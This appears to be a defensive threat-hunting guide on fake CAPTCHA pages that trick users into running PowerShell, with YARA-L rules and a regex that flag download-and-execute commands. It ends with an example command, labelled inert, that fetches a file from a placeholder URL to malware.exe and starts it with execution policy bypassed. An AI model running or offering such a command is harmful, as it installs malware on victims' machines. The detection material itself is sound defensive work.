 # Hypothesis-Driven Threat Hunt: Fake CAPTCHA Prompting Malicious PowerShell Execution

## Step 1: Define the Hypothesis
Threat actors use fake CAPTCHA challenges to socially engineer victims into copying and executing malicious PowerShell commands, leading to initial access, malware execution, or system compromise. While credential stealers are the most commonly used, a threat actor could use this attack to execute ransomware or remote access trojans. 

## Step 2: Identify Data Sources
To detect such activities, monitor:

- **Web Traffic Logs**: Identify access to suspicious or uncommon CAPTCHA pages.
- **Clipboard Monitoring**: Detect unexpected or unauthorized content copied to the clipboard.
- **PowerShell Execution Logs**: Capture and analyze executed commands.
- **Endpoint Detection and Response (EDR) Logs**: Monitor for malicious activities post-execution.

## Step 3: Indicators of Compromise (IoCs)
- **Clipboard Events**: Sudden copying of PowerShell commands.
- **PowerShell Execution**: Commands initiating downloads or executing scripts from external sources.
- **Network Connections**: Outbound traffic to known malicious domains or IPs.
- **File System Changes**: Creation of unauthorized scripts or executables.

## Step 4: Develop Detection Queries

### (YARA-L)

**Detect Clipboard Copying of PowerShell Commands**:  
Focus on detecting subsequent PowerShell executions that could result from clipboard copying actions. YARA-L can be used to identify patterns indicative of PowerShell commands being executed after clipboard copying events.


### (YARA-L).
```
rule suspicious_powershell_execution {
    meta:
        description = "Detects PowerShell executions that may result from malicious clipboard content"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(Invoke-WebRequest|IEX|DownloadString).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:

```
rule powershell_download_execute {
    meta:
        description = "Detects PowerShell commands that download and execute scripts"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(New-Object\s+Net.WebClient|Invoke-WebRequest).*(DownloadString|DownloadFile).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:
Regex Pattern: Monitor PowerShell Executions with Suspicious Parameters:
```
.*(Invoke-WebRequest|IEX|DownloadString|New-Object\s+Net.WebClient|Invoke-Expression).*(http|https|file|ftp).*
``` 
### Explanation:
- PowerShell commands like Invoke-WebRequest and IEX are commonly used in malicious scripts to download and execute payloads.
- This regex checks for URLs (http, https, file, ftp) in the command line to spot suspicious downloads.

---------------------------------------------------------------------------   
### Example of Powershell command <THIS DOES NOTHING>:

```powershell
powershell -ExecutionPolicy Bypass -Noprofile -Command "invoke-Webrequest -URL 'http here' -Outfile 'C:\Users\Public\malware.exe'; Start-Process 'C\Users\Public\malware.exe'

```
